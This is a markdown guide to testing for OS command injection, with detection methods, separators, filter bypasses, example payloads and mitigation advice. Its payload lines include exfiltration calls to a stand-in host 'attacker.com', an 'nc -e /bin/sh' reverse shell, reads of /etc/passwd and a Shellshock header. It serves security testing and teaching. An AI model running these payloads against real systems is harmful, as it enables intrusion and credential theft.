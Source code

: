 

# OS Command Injection Testing Guide

## Overview
OS Command Injection is a vulnerability that allows attackers to execute arbitrary OS commands on a server by manipulating application inputs.

## Types of Command Injection
1. **Active (Visible) Injection** - Direct command output visible in response
2. **Blind Injection** - No visible output (use time delays or out-of-band techniques)

## Detection Methods

### 1. Basic Testing
```bash
# Append commands
input; whoami
input && whoami
input | whoami

# Chain commands
input || whoami
input %0a whoami (URL-encoded newline)

### 2. Error-Based Detection
```

```bash

Copy

input'
input"
input ` (backtick)
input$() 

### 3. Blind Injection Techniques

**Time Delay Detection:**
```

```bash

Copy

input || ping -c 10 127.0.0.1
input & sleep 10

**Out-of-Band Detection:**
```

```bash

Copy

input || nslookup attacker.com
input || curl https://attacker.com/$(whoami)

```
### 4. Automated Testing

- **Burp Suite:** Use Active Scan with command injection payloads
    
- **OWASP ZAP:** Command Injection scanner
    
- **Commix:** Automated tool ([https://github.com/commixproject/commix](https://github.com/commixproject/commix))
    

## Exploitation Techniques

### Command Separators

bash

Copy

;
&&
|
||
%0a (newline)
%0d (carriage return)
` (backticks)
$()

### Bypassing Filters

**Case Manipulation:**

bash

Copy

WhOaMi

**Encoding:**

bash

Copy

input%0Aid
input%3Bcat+/etc/passwd

**White Space Bypass:**

bash

Copy

{cat,/etc/passwd}
cat$IFS/etc/passwd

### Platform-Specific Payloads

**Windows:**

powershell

Copy

ping%20localhost
|| ver

**Unix:**

bash

Copy

; cat /etc/passwd
`nc -e /bin/sh attacker.com 4444`

## Mitigation Strategies

1. **Input Validation**
    
    - Allowlist safe characters
        
    - Block special characters (; & | etc.)
        
2. **Use Safe APIs**
    
    python
    
    Copy
    
    # Instead of os.system()
    subprocess.run([fixed_command, user_input], shell=False)
    
3. **Output Encoding**
    
4. **Least Privilege Execution**
    
5. **Input Sanitization**
    
    - Escape special characters
        
    - Use built-in library functions instead of string concatenation
        

## Testing Checklist

- Test all user-controllable inputs
    
- Try both active and blind techniques
    
- Test different command separators
    
- Verify Windows and Unix payloads
    
- Check filter bypass techniques
    
- Validate error handling
    

## Example Scenarios

**Web Application Form:**

http

Copy

POST /ping HTTP/1.1
Host: example.com
...
address=8.8.8.8; whoami

**HTTP Header Injection:**

http

Copy

GET / HTTP/1.1
Host: example.com
User-Agent: () { :; }; /bin/bash -c 'cat /etc/passwd'









[writeup](https://github.com/payloadbox/command-injection-payload-list) 